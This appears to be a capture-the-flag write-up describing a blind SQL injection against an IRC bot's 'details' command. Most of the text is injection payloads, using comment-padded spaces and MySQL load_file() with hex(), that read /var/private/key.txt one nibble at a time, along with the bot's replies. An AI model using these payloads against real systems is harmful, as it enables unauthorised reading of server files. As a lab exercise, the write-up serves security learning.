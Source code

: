 Robot Superiority
=================

## Category: Exploiting

This challenge is to recover the file "/var/private/key.txt" from an IRC bot.

Messaging "help" to the bot reveals the following commands:

```
help; details [movie id]; search [keyword]; add movie [title]; add robot [movie id] [name]
```

The bot stores information about robots that apear in movies.

I found that the ```details``` command doesn't properly sanatize inputs, and is vulnerable to SQL injection.

```
me  > details 7
bot > Firefly: hi; poop; fu'; hello''!"#¤%&/()=?`^'^-{[]}´; 2; (48 total)

me  > details 7'/**/AND/**/''='
bot > Firefly: hi; poop; fu'; hello''!"#¤%&/()=?`^'^-{[]}´; 2; (48 total)

me  > details 7'/**/AND/**/'asfd'='
bot > Firefly: hi; poop; fu'; hello''!"#¤%&/()=?`^'^-{[]}´; 2; (0 total)
```

The important thing to notice is the ```(0 total)``` response to the last query.  The vulnerable query is the one that counts the number of records.  This is the only way I found to get information back from my injection string.

The key file can be loaded from the database using the MySQL function ```load_file()```.  My method of recovering its contents was to convert the contents into a hex string using ```hex()```, then guess one nibble at a time.  irc.py is an implementation of this method.

```
me  > details 7'/**/and/**/(select/**/mid(hex(load_file('/var/private/key.txt')),/**/1,/**/1))='0'/**/and/**/''='
bot > Firefly: hi; poop; fu'; hello''!"#¤%&/()=?`^'^-{[]}´; 2; (0 total)

me  > details 7'/**/and/**/(select/**/mid(hex(load_file('/var/private/key.txt')),/**/1,/**/1))='1'/**/and/**/''='
bot > Firefly: hi; poop; fu'; hello''!"#¤%&/()=?`^'^-{[]}´; 2; (0 total)

me  > details 7'/**/and/**/(select/**/mid(hex(load_file('/var/private/key.txt')),/**/1,/**/1))='2'/**/and/**/''='
bot > Firefly: hi; poop; fu'; hello''!"#¤%&/()=?`^'^-{[]}´; 2; (0 total)

me  > details 7'/**/and/**/(select/**/mid(hex(load_file('/var/private/key.txt')),/**/1,/**/1))='3'/**/and/**/''='
bot > Firefly: hi; poop; fu'; hello''!"#¤%&/()=?`^'^-{[]}´; 2; (48 total)

me  > details 7'/**/and/**/(select/**/mid(hex(load_file('/var/private/key.txt')),/**/2,/**/1))='0'/**/and/**/''='
bot > Firefly: hi; poop; fu'; hello''!"#¤%&/()=?`^'^-{[]}´; 2; (0 total)


...

me  > details 7'/**/and/**/(select/**/mid(hex(load_file('/var/private/key.txt')),/**/130,/**/1))='9'/**/and/**/''='
bot > Firefly: fu'; hello''!"#¤%&/()=?`^'^-{[]}´; 2; test; test; (0 total)

me  > details 7'/**/and/**/(select/**/mid(hex(load_file('/var/private/key.txt')),/**/130,/**/1))='A'/**/and/**/''='
bot > Firefly: fu'; hello''!"#¤%&/()=?`^'^-{[]}´; 2; test; test; (48 total)
```
